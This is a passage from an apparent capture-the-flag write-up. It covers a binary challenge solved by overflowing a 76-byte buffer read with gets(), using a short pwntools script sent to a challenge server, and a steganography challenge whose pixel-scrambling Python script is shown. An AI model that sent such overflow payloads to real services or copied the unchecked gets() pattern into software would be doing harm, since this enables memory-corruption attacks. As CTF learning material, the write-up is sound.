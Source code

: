 After that it compares another var  local_c with the str *l33t*, and it checks if the result is 0. When the result is 0? well is 0 when the strings are equal , so we need to "forcefeed" the  *l33t* strings to the program, since it uses gets for input for the var  local_58 we can do a buffer overflow (the var has only 76 chars but the gets func is vuln) so we add 76 chars + l33t at the end and we get the flag  
```python
>>> cat expl.py 
# Hikari's code
#!/usr/bin/env python3
from pwn import *


r = remote("34.107.86.157", 30987)
r.sendline("A"*76+"l33t")
r.interactive()
```
Flag proof :
```bash
ctf{417e85857875cd875f23abee3d45ef6a4fa68a56e692a8c998e0d82f4f3e6ac7}
```

### crossed-pil(easy)
*You might not see this at first. You should look from one end to another.*
We get a photo, running strings on it  we find :
```python
import numpy as np
from PIL import Image
import random
img = Image.open('flag.png')
pixels = list(img.getdata())
oioi=[]
for value in pixels:
    oi = []
    for oioioi in value:
        # hate me note for the var names ;)
        if oioioi == 255:
            oioioi = random.choice(range(0, 255, 2))
        else:
            oioioi = random.choice(range(0, 255, 1))
        oi.append(oioioi)
    oioi.append(oi)
img = Image.new('RGBA', [200,200], 255)
data = img.load()
count = 0
for x in range(img.size[0]):
    for y in range(img.size[1]):
        data[x,y] = (
            oioi[count][0],
            oioi[count][1],
            oioi[count][2],
            oioi[count][3],
        )
        count = count + 1
        
img.save('image.png')
```
So 2 images added to eachother , that is what the script does  
Nothing that stegsolve cannot handle :D  
![torrrrrrrr](16.png)
just click on the > until qr code :  
![notthoristor](17.png)
Now I used my iphone's qr code scanner, I've heard that some ppl had problems with it...
```bash
```